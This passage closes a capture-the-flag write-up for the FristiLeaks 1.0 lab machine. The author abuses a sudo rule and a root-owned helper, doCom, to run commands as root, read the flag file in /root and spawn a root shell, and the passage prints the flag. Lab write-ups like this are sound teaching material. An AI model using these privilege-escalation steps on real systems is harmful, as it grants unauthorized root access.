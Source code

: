 The user fristigod is allowed to run `doCom` as fristi. Let's try that.

~~~
$ sudo -u fristi ./doCom
~~~

And we got the right response.

~~~
Usage: ./program_name terminal_command ...
~~~

Try checking our privilege when executing the command with `doCom`.

~~~
$ sudo -u fristi ./doCom id

uid=0(root) gid=100(users) groups=100(users),502(fristigod)

$ sudo -u fristi ./doCom whoami

root
~~~

### Getting the Flag

As root, we're able to access the `/root` directory and check its contents. And here's our flag file, stored in that directory.

~~~
$ sudo -u fristi ./doCom ls /root

fristileaks_secrets.txt
~~~

Time to get our flag.

~~~
$ sudo -u fristi ./doCom cat /root/fristileaks_secrets.txt
~~~

And here's it is!

~~~
Congratulations on beating FristiLeaks 1.0 by Ar0xA [https://tldr.nu]

I wonder if you beat it in the maximum 4 hours it's supposed to take!

Shoutout to people of #fristileaks (twitter) and #vulnhub (FreeNode)


Flag: Y0u_kn0w_y0u_l0ve_fr1st1



~~~

By the way, I could just spawn a root shell with `doCom` instead of doing things one by one like that.

~~~
$ sudo -u fristi ./doCom /bin/bash
~~~

I wonder if I managed to finish it in 4 hours. I did it in three days, around one or two hours per day. But well, it's finished though.
